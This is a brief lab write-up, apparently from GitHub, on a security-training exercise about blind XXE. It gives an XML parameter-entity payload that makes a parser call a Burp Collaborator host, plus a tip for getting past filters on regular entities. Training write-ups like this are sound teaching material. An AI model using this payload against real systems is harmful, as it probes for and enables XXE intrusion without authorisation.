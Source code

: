Title: Blind XXE with out-of-band interaction via XML parameter entities
Level: Practitioner 
Desc:  This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 


Below you can find XML Parameter Entity
```
<!DOCTYPE stockCheck [
 <!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">
 %xxe; ]>
```

Message about entities which are not allowed: 
![image](https://github.com/user-attachments/assets/881773c0-6903-4c60-b6a5-2fef15ece44e)
It could say, that regular entities are not allowed, but maybe parameter entities are.

So first of all, always try to make entity definition, if it is possible, try indexing that entity in xml data model. If it is possible, congrats, you have vulnerability, if it is not, 
try parametrized entities.
